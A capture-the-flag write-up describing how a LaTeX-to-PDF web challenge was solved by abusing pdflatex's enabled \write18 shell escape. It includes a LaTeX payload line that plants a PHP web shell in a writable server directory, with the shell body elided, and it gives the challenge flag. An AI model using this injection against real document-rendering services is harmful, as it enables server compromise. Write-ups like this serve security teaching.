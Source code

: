 ### Solved by Swappage

This 90 points web challenge was a webUI to generate PDF documents from LateX source.
We were allowed to submit LateX source code, and the web application would provide us a PDF to download.

by a quick look at the debug log at the bottom of the page and by googling a bit we could easly figure out that the web application was invoking the **pdflatex** command line tool to generate the output.

    LOG:
    This is pdfTeX, Version 3.14159265-2.6-1.40.15 (TeX Live 2015/dev/Debian) (preloaded format=pdflatex)

by a quick look at the command line help we can also notice

    [-no]-shell-escape      disable/enable \write18{SHELL COMMAND}

And again, appearently it looks like that *\write18* was enabled in the web application.

This means we can execute shell commands in the server.

We quickly generated a payload that would drop a php shell on the server in the **compile** directory which was writeable by the php scripts and gained access to the server.

    \immediate\write18{echo '<?php .... ?>' >  /var/www/texmaker.ctf.internetwache.org/compile/swappage.php }


The flag was stored in a php script in the web root:

```php
<php
$FLAG = "IW{L4T3x_IS_Tur1ng_c0mpl3te}";
?>
```

the flag is: **IW{L4T3x_IS_Tur1ng_c0mpl3te}**
